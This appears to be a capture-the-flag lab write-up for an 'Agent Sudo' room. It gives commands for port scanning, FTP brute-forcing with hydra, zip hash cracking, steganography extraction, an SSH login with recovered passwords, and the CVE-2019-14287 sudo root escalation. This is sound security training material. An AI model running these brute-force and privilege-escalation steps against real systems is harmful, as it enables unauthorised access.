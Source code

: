 # Agent Sudo

## :map: Enumerate

### How many open ports?

```
nmap 10.10.219.222
```

![](<../../.gitbook/assets/Screenshot from 2020-09-28 16-52-03.png>)

### How you redirect yourself to a secret page?

> user-agent

### What is the agent name?

```
echo {A..Z} | tr ' ' '\n' > agent.txt
```

![](<../../.gitbook/assets/Screenshot from 2020-09-28 16-57-22.png>)

![](<../../.gitbook/assets/Screenshot from 2020-09-28 16-57-53.png>)

## :hash: Hash Cracking and Brute-Force

### FTP password

```
hydra -l chris -P /usr/share/metasploit-framework/data/wordlists/password.lst \
      ftp://10.10.219.222 -I -f -V -t64
```

![](<../../.gitbook/assets/Screenshot from 2020-09-28 17-35-15.png>)

### Zip file password

```
lftp 10.10.219.222 -u chris,crystal
lftp :~> ls -a
lftp :~> cat To_agentJ.txt
lftp :~> get cute-alien.jpg
lftp :~> get cutie.png
```

![](<../../.gitbook/assets/Screenshot from 2020-09-28 17-36-57.png>)

```
binwalk cutie.png
binwalk -D '.*' cutie.png
zip2john _cutie.png.extracted/8702 > zip.txt
hashcat -a 0 -m 13600 zip.txt /usr/share/wordlists/rockyou.txt
```

![](<../../.gitbook/assets/Screenshot from 2020-09-28 18-06-40.png>)

### steg password

```
7z x _cutie.png.extracted/8702
cat To_agentR.txt
echo -n 'QXJlYTUx' | base64 -d
```

![](<../../.gitbook/assets/Screenshot from 2020-09-28 18-09-26.png>)

### Who is the other agent?

```
steghide extract -sf cute-alien.jpg
cat message.txt
```

![](<../../.gitbook/assets/Screenshot from 2020-09-28 18-14-30.png>)

### SSH password

> hackerrules!

## :triangular\_flag\_on\_post: Capture the user flag

### What is the user flag?

```
ssh james@10.10.219.222
$ ls -lA
$ cat user_flag.txt
```

![](<../../.gitbook/assets/Screenshot from 2020-09-28 18-29-31.png>)

### What is the incident of the photo called?

```
scp james@10.10.219.222:/home/james/Alien_autospy.jpg .
```

![](<../../.gitbook/assets/Screenshot from 2020-09-28 18-35-05.png>)

![](<../../.gitbook/assets/Screenshot from 2020-09-28 18-35-10.png>)

### :top: Privilege escalation

### CVE number for the escalation

> CVE-2019-14287

### What is the root flag?

```
$ sudo -l
$ sudo -u#-1 /bin/bash
# cat /root/root.txt
```

![](<../../.gitbook/assets/Screenshot from 2020-09-28 18-39-34.png>)

### Who is Agent R?

> DesKel

## :link: Support Material

{% embed url="https://programmer.ink/think/cve-2019-14287-linux-sudo-vulnerability-analysis.html" %}
